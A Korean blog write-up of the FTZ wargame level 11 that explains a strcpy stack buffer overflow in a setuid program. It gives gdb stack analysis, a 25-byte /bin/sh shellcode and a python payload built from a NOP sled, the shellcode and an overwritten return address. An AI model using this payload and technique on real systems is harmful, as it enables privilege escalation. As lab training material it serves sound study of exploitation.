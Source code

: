 ```yaml
---
title:  "[FTZ] level 11"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-11-30 23:55:29

---
```


# level 11

**level11 / what!@#$?**

힌트

![image](https://user-images.githubusercontent.com/69203345/144042166-e6eca1ab-7038-4329-ab30-84b1beb1e897.png)

attackme가 뭔진 모르지만 일단 코드부터

int setreuid(uid_t ruid, uid_t euid)  
매개변수  
ruid = Real User ID  
euid = Effective User ID

Real UID : # who am i ( 내가 어떤 사용자로 로그인 했는가 )  
Effective UID : #id or #whoami    ( 현재 내가 누구 인가 )

반환값  
성공시 0 에러시 -1 리턴, errno 는 적절하게 설정된다.

strcpy 함수에서 문자열 길이 검사를 하지 않기 때문에 오버플로우 취약점이 생긴다  


![image](https://user-images.githubusercontent.com/69203345/144043470-5c79233e-99f4-4255-bf46-e4a1002274a1.png)

attackme에 setuid가 설정되어있다  
실행시 level12의 권한으로 실행된다

attackme를 실행하면 level12로 실행되고  
그럼 패스워드를 알 수 있을 것이다

![image](https://user-images.githubusercontent.com/69203345/144044046-53102147-033a-4e8e-bf48-3abf96d120cc.png)

입력한 문자열을 그대로 출력 한다

gdb를 통해 확인 해보자  
level9에서 했던 것처럼 intel 문법으로 바꿔서 확인하자

![image](https://user-images.githubusercontent.com/69203345/144045310-49811c4c-8c18-47fb-bbc7-69dc3a6b5ec8.png)

0x08048473 <main+3>:    sub    esp,0x108  
<main+3>을 통해 char str[256]의 공간을 스택에 마련함
strcpy함수를 사용하기 때문에 str공간을 넘어서 다른 영역도 침범 가능  
256의 0x100의 공간에 dummy로 0x8만큼 할당함  
esp = [ebp - 264]

0x08048479 <main+9>:    sub    esp,0x8  
esp = [ebp - 272]  
아마 스택의 구조는 이럴것이다

높은주소  

[  RET(4)  ]  
[  SFP(4)  ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

아무 값 268 (256+8+4)에 4byte를 넣으면 ret에 원하는 값을 덮어 씌울 수 있다  
ret 에 쉘코드가 저장된 주소를 넣어줘야 하는데 먼저 쉘 코드를 준비해야한다  
구글링 하면 나오는 25바이트 쉘 코드 사용
>\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

쉘 코드 앞에는 NOP을 의마하는 \x90 으로 채워준다
268(str[256]+dummy[8]+SFP[4])-shellcode(25) = 243  

>\`python -c 'print "\x90"*243+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"AAAA"'`

NOP을 넣는 것을 NOP Sled 라고 한다  
NOP Sled를 사용하는 이유는 쉘 코드를 올려주면 쉘코드의 시작 주소에서 시작한다는 보장이 없기 때문이다 그래서 프로그램의 시작주소를 약간 부정확하게 확인했어도 NOP의 개수 만큼의 오차 범위 안에있는 주소라면 쉘코드가 실행된다

리턴 주소를 구하기 위해 ebp-264의 주소를 알아야 한다  
ebp-264에 argv[1]을 덮어쓰는 작업을 하고 난 후인 *main+53에 브레이크 포인트를 건다

![image](https://user-images.githubusercontent.com/69203345/144066563-dc367fa3-74c1-4464-858c-57649b700103.png)

![image](https://user-images.githubusercontent.com/69203345/144067434-d9d3f9f5-4481-437d-bee2-09ad6e334103.png)

검색해 보니까 setuid 가 걸려 있어서 오류가 뜬다고 한다  
tmp로 복사한후 하면 된다

![image](https://user-images.githubusercontent.com/69203345/144068972-d02342e3-79e8-4834-a291-167309e2b1be.png)

잘 작동한다 그럼 esp의 스택을 확인 해보자

![image](https://user-images.githubusercontent.com/69203345/144077360-6a938d4c-fb78-4fba-8035-910b9c22d93a.png)

0xbffff4c0 부터 NOP이 저장 되고 있다

그럼이제 나가서 버퍼오버플로우 시도  
>\`python -c 'print "\x90"*243+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\xc0\xf4\xff\xbf"'`


Segmentation fault가 나타나는데 노가다 하자!  
하다 하다 안되서 리턴주소를 조금씩 바꿔가면서 함

![image](https://user-images.githubusercontent.com/69203345/144078425-ccaa313d-f97e-40c0-9132-a932c7106cd0.png)

0xbffffbc0에서 성공..(원래 이렇게 하는건가?)

다음!